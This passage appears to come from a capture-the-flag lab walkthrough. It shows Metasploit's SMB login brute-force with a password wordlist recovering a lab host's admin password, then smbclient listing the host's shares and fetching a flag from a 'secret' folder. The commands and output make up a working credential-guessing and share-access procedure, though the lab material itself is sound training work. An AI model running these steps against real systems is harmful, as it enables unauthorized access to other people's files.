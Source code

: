 ```
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > set SMBUser admin
SMBUser => admin
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 192.238.101.3:445     - 192.238.101.3:445 - Starting SMB login bruteforce
[-] 192.238.101.3:445     - 192.238.101.3:445 - Failed: '.\admin:admin',
[-] 192.238.101.3:445     - 192.238.101.3:445 - Failed: '.\admin:123456',
[-] 192.238.101.3:445     - 192.238.101.3:445 - Failed: '.\admin:12345',
[-] 192.238.101.3:445     - 192.238.101.3:445 - Failed: '.\admin:123456789',
[+] 192.238.101.3:445     - 192.238.101.3:445 - Success: '.\admin:password'
[*] 192.238.101.3:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

List out the shares using `admin` user.

```
root@attackdefense:~# smbclient -L \\\\192.238.101.3\\ -U admin
Enter WORKGROUP\admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk      
        john            Disk      
        aisha           Disk      
        emma            Disk      
        everyone        Disk      
        IPC$            IPC       IPC Service (samba.recon.lab)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        RECONLABS            SAMBA-RECON
```

Interact with share public.

```
root@attackdefense:~# smbclient \\\\192.238.101.3\\public -U admin
Enter WORKGROUP\admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Nov 27 13:36:13 2018
  ..                                  D        0  Tue Nov 27 13:36:13 2018
  dev                                 D        0  Tue Nov 27 13:36:13 2018
  secret                              D        0  Tue Nov 27 13:36:13 2018

                1981084628 blocks of size 1024. 52522312 blocks available
smb: \> cd secret\
smb: \secret\> ls
  .                                   D        0  Tue Nov 27 13:36:13 2018
  ..                                  D        0  Tue Nov 27 13:36:13 2018
  flag                                N       33  Tue Nov 27 13:36:13 2018

                1981084628 blocks of size 1024. 52522416 blocks available
smb: \secret\> get flag 
```